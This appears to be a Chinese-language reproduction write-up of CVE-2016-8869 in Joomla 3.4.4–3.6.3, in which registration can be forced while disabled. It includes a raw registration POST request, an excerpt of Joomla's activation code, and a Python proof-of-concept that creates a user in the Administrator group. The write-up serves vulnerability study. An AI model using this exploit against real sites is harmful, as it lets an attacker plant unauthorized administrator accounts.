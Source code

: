 （CVE-2016-8869）Joomla 3.4.4-3.6.3 未授权创建特权用户
======================================================

一、漏洞简介
------------

网站关闭注册的情况下仍可创建用户，默认状态下用户需要用邮件激活，但需要开启注册功能才能激活。

二、漏洞影响
------------

Joomla 3.4.4-3.6.3

三、复现过程
------------

-   首先在后台关闭注册功能，关闭后首页没有注册选项：

![1.png](./.resource/(CVE-2016-8869)Joomla3.4.4-3.6.3未授权创建特权用户/media/rId24.png)

-   .然后通过访问index.php抓包获取cookie，通过看index.php源码获取token：

![2.png](./.resource/(CVE-2016-8869)Joomla3.4.4-3.6.3未授权创建特权用户/media/rId25.png)

-   构造注册请求：

```{=html}
<!-- -->
```
    POST /index.php/component/users/?task=registration.register HTTP/1.1
    ...
    Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryefGhagtDbsLTW5qI
    ...
    Cookie: yourcookie

    ------WebKitFormBoundaryefGhagtDbsLTW5qI
    Content-Disposition: form-data; name="user[name]"

    attacker
    ------WebKitFormBoundaryefGhagtDbsLTW5qI
    Content-Disposition: form-data; name="user[username]"

    attacker
    ------WebKitFormBoundaryefGhagtDbsLTW5qI
    Content-Disposition: form-data; name="user[password1]"

    attacker
    ------WebKitFormBoundaryefGhagtDbsLTW5qI
    Content-Disposition: form-data; name="user[password2]"

    attacker
    ------WebKitFormBoundaryefGhagtDbsLTW5qI
    Content-Disposition: form-data; name="user[email1]"

    attacker@my.local
    ------WebKitFormBoundaryefGhagtDbsLTW5qI
    Content-Disposition: form-data; name="user[email2]"

    attacker@my.local
    ------WebKitFormBoundaryefGhagtDbsLTW5qI
    Content-Disposition: form-data; name="option"

    com_users
    ------WebKitFormBoundaryefGhagtDbsLTW5qI
    Content-Disposition: form-data; name="task"

    user.register
    ------WebKitFormBoundaryefGhagtDbsLTW5qI
    Content-Disposition: form-data; name="yourtoken"

    1
    ------WebKitFormBoundaryefGhagtDbsLTW5qI--

-   发包，成功注册：

![3.png](./.resource/(CVE-2016-8869)Joomla3.4.4-3.6.3未授权创建特权用户/media/rId26.png)

### 补充

**2016-10-27 更新：**默认情况下，新注册的用户需要通过注册邮箱激活后才能使用。并且：

![4.jpeg](./.resource/(CVE-2016-8869)Joomla3.4.4-3.6.3未授权创建特权用户/media/rId28.jpg)

由于`$data['activation']`的值会被覆盖，所以我们也没有办法直接通过请求更改用户的激活状态。

**2016-11-01 更新：**

感谢三好学生和D的提示，可以使用邮箱激活的前提是网站开启了注册功能，否则不会成功激活。

我们看激活时的代码，在`components/com_users/controllers/registration.php`中第28-99行的activate函数：

    public function activate()
    {
        $user    = JFactory::getUser();
        $input   = JFactory::getApplication()->input;
        $uParams = JComponentHelper::getParams('com_users');
        ...

        // If user registration or account activation is disabled, throw a 403.
        if ($uParams->get('useractivation') == 0 || $uParams->get('allowUserRegistration') == 0)
        {
            JError::raiseError(403, JText::_('JLIB_APPLICATION_ERROR_ACCESS_FORBIDDEN'));

            return false;
        }

        ...
    }

这里可以看到仅当开启注册功能时才允许激活，否则返回403。

### poc

![5.png](./.resource/(CVE-2016-8869)Joomla3.4.4-3.6.3未授权创建特权用户/media/rId30.png)

    # coding: utf-8
    # CVE-2016-8869
    # author: Anka9080

    import re
    import requests
    import random

    def extract_token(resp):
        match = re.search(r'name="([a-f0-9]{32})" value="1"', resp.text, re.S)
        if match is None:
            print("[!] Cannot find CSRF token")
            return None
        print('[*] Your token is '+match.group(1))
        return match.group(1)

    def poc(target):
        headers = {
            "Content-Type":"application/x-www-form-urlencoded"
        }
        proxies = {
            'http':'127.0.0.1:8080'
        }
        s = requests.Session()
        r = s.get(target+'index.php/component/users/?task=registration.register',proxies=proxies) # get cookie
        token = extract_token(r)
        # print r.headers
        randstr = '_'+str(random.randint(1,10000))
        # build post data
        print('[*] create user: {}'.format('admin'+randstr))
        data = {
            # User object
            'task':(None,'user.register'),
            'option':(None,'com_users'),
            'user[name]': (None,'admin'+randstr),
            'user[username]': (None,'admin'+randstr),
            'user[password1]': (None,'admin'),
            'user[password2]': (None,'admin'),
            'user[email1]': (None,'admin'+randstr +'@xx.com'),
            'user[email2]': (None,'admin'+randstr +'@xx.com'),
            'user[groups][]': (None,'7'),   #  Administrator!
            token:(None,'1')
        }
        try:
            r = s.post(target+'index.php/component/users/?task=registration.register',files=data,proxies=proxies,allow_redirects=False)
            if 'index.php?option=com_users&view=registration' in r.headers['location']:
                print('[+] {} is vul !'.format(target))
                return True
        except Exception , e:
            print('[!] err: {}'.format(str(e)))

        return False


    if __name__ == '__main__':
        poc('http://localhost/joomla/Joomla_3.6.3-Stable-Full_Package/')    

参考链接
--------

> https://paper.seebug.org/86/
